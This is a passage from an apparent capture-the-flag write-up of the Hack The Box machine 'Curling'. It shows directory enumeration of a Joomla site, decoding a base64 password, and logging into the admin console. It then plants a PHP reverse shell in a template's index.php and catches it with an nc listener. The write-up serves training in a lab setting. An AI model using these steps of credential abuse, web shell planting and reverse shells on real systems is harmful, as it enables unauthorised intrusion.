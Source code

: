 /index.php (Status: 200)
/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)
=====================================================
2018/10/27 22:43:46 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
We can figure out that Joomla is running on port 80.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-31/2019-03-24-15-14-26.png)

There is an interesting line in html source code in "/index.php".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-31/2019-03-24-15-20-11.png)

In the "secret.txt", we have base64 encoded message.
{% highlight shell %}
root@kali:~# curl http://10.10.10.150/secret.txt
Q3VybGluZzIwMTgh

root@kali:~# echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
{% endhighlight %}

We can use this text for login credential.
{% highlight shell %}
floris:Curling2018!
{% endhighlight %}

Now we have a control of admin console.<br>
Try to upload our shellcode. Go to "Extensions" -> "Templates" -> "Templates".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-31/2019-03-24-15-49-36.png)

Then choose "Protostar Details and Files" -> "index.php"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-03-31/2019-03-24-17-37-06.png)

Now we have a console which we can edit the source code of index.php.<br>
Let's add reverse shell code (<a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">example</a>) here and access "http://10.10.10.150/index.php". We can achieve a reverse shell.
{% highlight shell %}
# on localhost
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.150] 43324
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:32:45 up 3 days,  3:27,  0 users,  load average: 0.00, 0.00, 0.00